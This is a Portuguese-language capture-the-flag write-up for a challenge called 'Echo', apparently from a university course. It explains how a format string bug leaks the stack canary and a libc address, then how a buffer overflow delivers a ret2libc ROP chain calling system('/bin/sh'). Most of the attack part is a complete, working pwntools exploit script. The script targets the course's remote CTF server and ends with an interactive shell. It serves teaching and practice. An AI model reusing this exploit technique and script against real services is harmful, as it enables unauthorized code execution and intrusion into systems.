








# Echo

### Vulnerabilidade 

Primeiramente, notou-se que através da string pedida como nome input se podia descobrir informações importantes sobre o sistema, através de um ataque format string.

Numa segunda instância percebeu-se que se podia provocar um buffer overflowm visto o array da string de nome, de tamanho 20 bytes, estar a ser lida como se tivesse 100 bytes. 

Estas duas vulnerabilidades são a base do exploit.

Por fim, notou-se também que o programa tinha todas as proteções ativadas tornando vários tipos de ataques inviáveis ou consideravelmente mais difíceis de pôr em prática como ASLR e o caso de canários para dificultar buffer overflow, por exemplo.

### Exploit

Primeiro, convém criar uma função para nos ajudar no input para o servidor, uma vez que apenas podemos explorar o nome que enviámos, sendo útil ter uma função para tal.

```python
def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans
```

Começando agora propriamente a tratar do exploit, para facilitar o teste do nosso ataque procurou-se desativar a **ASLR** (Address space layout randomization) localmente para tornar mais percéptivel algumas associações e também permitir confirmar a nossa linha de pensamento.

Uma vez que os buffers são colocados junto ao canário suspeitá-mos que o oitavo argumento da stack seria um canário ...


Uma vez que não tinhamos a certeza absoluta se o oitavo argumento seria ou não o canário, decidimos correr o programa duas vezes e verificar se o argumento mudava... (Isto só é possível pelo facto de termos desligado o ASLR.)




Uma vez que entre o canário e o return address temos o caller's save e o caller's ebp, pelo que o o return address estará no 11º argumento.

Temos os argumentos 8 e 11:




Sabendo que esse argumento pertence a uma intrução da **__libc_start_main** procurou-se descobrir o offset desta para a base da libc:





Ao fazer o mesmo para o endereço de __libc_start_main + 245, desta vez dentro do gdb, apercebemo-nos que o offset entre as duas intruções é de - 71 (decimal), sendo este importante para que consigámos dar uso a uma biblioteca auxiliar.

**Nota:** A conta do offset varia conforme a biblioteca que se têm instalada

O endereço base será então:
> 0xf7debee5 - libc.symbols["__libc_start_main"] + 71

Assim sendo, até o seguinte python script:

```python
from pwn import *

elf = ELF("program")
LOCAL = False

if LOCAL:
   libc = elf.libc
   p = elf.process()
else:
   libc = ELF("libc.so.6")
   p = remote("ctf-fsi.fe.up.pt", 4002)

ropExec = ROP(elf)

def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans

buffOffset = 20

sms1 = message(p, b"%8$x.%11$x")
print(int(sms1.split(b'.')[0], 16))
canary, putsAddress = [int(val,16) for val in sms1.split(b'.')]

libc.address = putsAddress - libc.symbols["__libc_start_main"] + 71 # offset para base

``` 

Tendo acesso ao endereço base podemos agora alterar o endereço de retorno da frame atual por uma função da nossa escolha.
Neste caso chamaremos a função **system()** com o argumento da shell. 

Ou seja, escrevemos o endereço de retorno, deixámos 4 bytes (por causa do esp, slide 13 da semana 5) e depois colocámos o endereço do /bin/sh. 
Felizmente já existe uma biblioteca que nos trata de todo este processo de **ROP** (Return Oriented Programming).

```python
# Execute system
ropLib = ROP(libc)
ropLib.system(next(libc.search(b"/bin/sh")))
ropLib.exit()
```

Notou-se ainda que o canário tem um byte nulo (ver que na imagem acima que o canário acaba(começa) com \0), o que parece ser um impedimento para a escrita, porém, se somarmos um valor pequeno ao último byte do canário conseguimos ultrapassá-lo sem sermos detetados. Tal só acontece porque a deteção de integridade do canário só é feita ao sair da função main.
Podemos assim, numa escrita subsequente, repor o canário para o estado original.

Assim sendo temos:
```python
payload = flat(b"a" * buffOffset,canary + 2, b"A"*8, ropLib.chain())
# payload = flat(b"a" * buffOffset,canary + 1, b"A"*8, libc.symbols["system"], b"A"*4, next(libc.search(b"/bin/sh")))

res = message(p, payload)
```

Para repôr o estado do canário basta utilizar:

```python
r = message(p, b"." * 19)
```

Agora basta correr o programa e sair dele, usando a opção "q".



Aqui encontra-se o python script finalizado e que foi utilizado para adquirir a flag:

```python

from pwn import *

elf = ELF("program")
LOCAL = False

if LOCAL:
   libc = elf.libc
   p = elf.process()
else:
   libc = ELF("libc.so.6")
   p = remote("ctf-fsi.fe.up.pt", 4002)

ropExec = ROP(elf)

def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans

buffOffset = 20

sms1 = message(p, b"%8$x.%11$x")
canary, putsAddress = [int(val,16) for val in sms1.split(b'.')]

libc.address = putsAddress - libc.symbols["__libc_start_main"] + 71 # offset para base

# Execute system
ropLib = ROP(libc)
ropLib.system(next(libc.search(b"/bin/sh")))
ropLib.exit()

# Canário termina com /0 ?? No problemo
payload = flat(b"a" * buffOffset,canary + 2, b"A"*8, ropLib.chain())

# payload = flat(b"a" * buffOffset,canary + 1, b"A"*8, libc.symbols["system"], b"A"*4, next(libc.search(b"/bin/sh")))

res = message(p, payload)

r = message(p, b"." * 19)

p.interactive()


```


